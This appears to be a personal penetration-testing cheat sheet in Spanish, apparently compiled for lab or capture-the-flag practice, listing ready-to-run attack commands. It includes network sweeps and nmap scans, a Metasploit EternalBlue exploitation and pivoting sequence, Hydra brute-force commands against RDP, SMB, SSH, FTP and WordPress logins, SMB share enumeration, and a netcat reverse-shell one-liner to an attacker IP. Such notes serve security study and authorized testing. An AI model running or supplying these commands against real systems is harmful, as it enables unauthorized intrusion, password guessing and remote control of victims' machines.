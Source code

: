 • Crear entorno de trabajo.
• Recuerda ver EL CODIGO FUENTE a para poder **agregar la dirección a /etc/hosts**, cuando se trate de un virtual hosting.
• **Enumerar usuarios usando cat /etc/passwd**
• Apache2 Debian default page consultar /phpinfo.php

/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

python -c "import pty;pty.spawn('/bin/bash')"
## Escaneo de red

`Comprobamos TTL
ping -c1 10.0.60.1

``Barrido de ping, visualizar endpoints en la red
nmap -sn 10.0.60.**0**/24

``Ver interfaces de red
ip a
arp -a 
ifconfig
arp-scan -I eth1 --localnet --ignoredups

# Linux

``Ver interfaces de red
ip a

`Ver privilegios
sudo -l

`Ver conexiones de red
ss -natup

`Ver permisos de archivos del usuario actual
find / -perm -4000 2>/dev/null
#### Linux Ping Sweep

`for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done`

`Tablas de enrutamiento
ip route

`Bash inversa`
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.21.44 1123 >/tmp/f
# Windows

## Escaneo de red

`Reconocimiento de red 
`Tablas de enrutamiento
route print

`Comprobar versión de windows, nombre de dominio
crackmapexec smb 10.0.10.40

`Comprobar versión windows cmlt o powershell`
systeminfo | findstr /B /C:"OS Name" /B /C:"OS Version"

`Comprobar si es vulnerable Eternal Blue
nmap -p445 --script smb-vuln-ms17-010 10.0.10.40

#### Windows Ping Sweep

`for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.`
## Ataque Metasploit

`Metaxploit de EternalBlue
search eternalblue
msfconsole
use windows/smb/ms17_010_eternalblue

`Ver interfaces de redes en meterpreter
ipconfig

`Ver sesiones de metaexploit
sessions -l

`Pivoting con metaexploit
search   post/multi/manage/autoroute
use post/multi/manage/autoroute
options
set SESSION 1
run

`Portforwarding metaexploit/meterpreter
sessions -i 1
ipconfig
**portfwd add -l 5000 -p 80 -r (IP maquina victima)**
(Puerto 5000 de maquina atacante, sea el puerto 80 de la maquina victima)
**portfwd add -l 3000 -p 21 -r (IP maquina victima)**
(Puerto 5000 de maquina atacante, sea el puerto 80 de la maquina victima)


# Dirb

`Escaneo basico, diccionario predeterminado
dirb http://webscantest.com/

`Escaneo basico, selección de diccionario 
dirb http://webscantest.com/ /usr/share/dirb/wordlists/vulns

`Escaneo basico, diccionario y extensión
dirb http://10.10.252.250/retro /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -X .php

`Escaneo con diccionario y diccionario de extensiones.
dirb http://10.10.204.60/ /usr/share/dirb/wordlists/vulns/iis.txt -x /usr/share/dirb/wordlists/extensions_common.txt

`Objetivos vulnerables en dirb
cd /usr/share/dirb/wordlists/vulns 

# Hydra

`Diccionarios que usar

    /usr/share/metasploit-framework/data/wordlists/common_users.txt
    /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt


`Fuerza bruta a rdp
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.4.18.131 -s 3389

hydra -l Wade -P /usr/share/wordlists/rockyou.txt rdp://10.4.18.131 -s 3389

`Fuerza bruta a login panel

hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.100.50 http-post-form "/admin:username=^USER^&password=^PASS^:Incorrect" -t 64 -F

(ultimo field incorrect,wrong o cualquier display que haya en el mensaje de erorr)"
http-post-form: ruta absoluta del panel de inicio de sesión, usuario y contraseña, string contenida dentro del panel para verificar el cambio de estado 404 a 203

`Fuerza bruta a SMB
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt 10.0.2.55 smb

`Fuerza bruta wordpress
hydra -l admin -P ./passwordlist.txt 10.0.2.55 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:Incorrect'

`Fuerza bruta por ssh
hydra -v -V -u -L users.txt -p "" -t 4 -u 10.0.2.55 ssh

`Ataque de diccionario ssh`
hydra -l root -P passwords.txt 10.0.2.55 -t 4 ssh

``Fueraza bruta FTP
hydra -t 4 -l admin -P /usr/share/wordlists/rockyou.txt -vV 10.0.2.55 ftp

-l Especificar unico usuario
-L Diccionario de usuarios
-p Especificar contraseña usuario unico
-P Diccionario de contraseñas

# RDP

`Conectarse a windows por rdp
	xfreerdp /u:administrator /p:qwertyuiop /v:10.4.18.131:3389
xfreerdp /u:admin /p:blanca /v:192.168.100.55:3389

	xfreerdp /u:USER /p:PASSWORD /v:IPVICTIMA:PUERTOVICTIMA

# Nmap

``Barrido de ping, visualizar endpoints en la red
nmap -sn 10.0.2.**0**/24

``Barrido de nmap a ips
sudo nmap -sS --min-rate 5000 -p- --open 10.0.2.34,35,36,37,38,55 -oN tcp_scan.txt
sudo nmap -p- --open --min-rate 4000 -sS -sCV -Pn -n 10.10.10.39 -vvv -oN tcp_scan.txt
### `Optimizar puertos para ver versiones y servicios
grep '^[0-9]' tcp_scan.txt | cut -d '/' -f1 | sort -u | xargs | tr  ' ' ','

``Escanear puertos abiertos
nmap -p135,139,22,25,445,49665,49670,80 -sC -sV --open 10.0.2.43,45,46,53,55 -Pn -oN full_scan.txt

`Enumerar directorios con NMAP
nmap -p80 -Pn -n -vvv --script=http-enum 10.10.252.250

# Enumeración y explotación de samba

 `Enumeración de recursos:

smbclient -L 192.168.100.55 -N
smbmap -H 192.168.100.52

crackmapexec smb 192.168.100.55 -u 'guest' -p '' --shares
crackmapexec smb 192.168.100.55 -u 'guest' -p '' --users

**enum4linux 192.168.100.55**

`Ingresar sessión con anonymous y descarga de archivos:

smbclient //10.0.2.43/anonymous

• Obteniendo archivo en samba:
get archivo.txt
• Descargar todos los archivos recursivamente dentro de samba:
prompt
mget *

`Ataque de diccionario SMB:

crackmapexec smb 10.0.2.43 -u test -p passwords.txt

``Inicios de sesión samba

smbmap -H 10.0.2.43 -u helios -p qwerty
**smbclient //10.0.2.43/helios -U helios** (luego pedirá contraseña)

`Escaneo de vulnerabilidades samba con map
nmap -p445 --script="smb-vuln-\*" 10.0.2.45 
# WPSCAN

`Enumeración de usuarios
wpscan --url http:\/\/10.2.0.48/ -e u


# MSF

# FTP

`Conexión
ftp 10.10.0.5

`Descargar archivos 
get nombre_del_archivo

`Enviar archivos desde la maquina atacante
send nombre_del_archivo

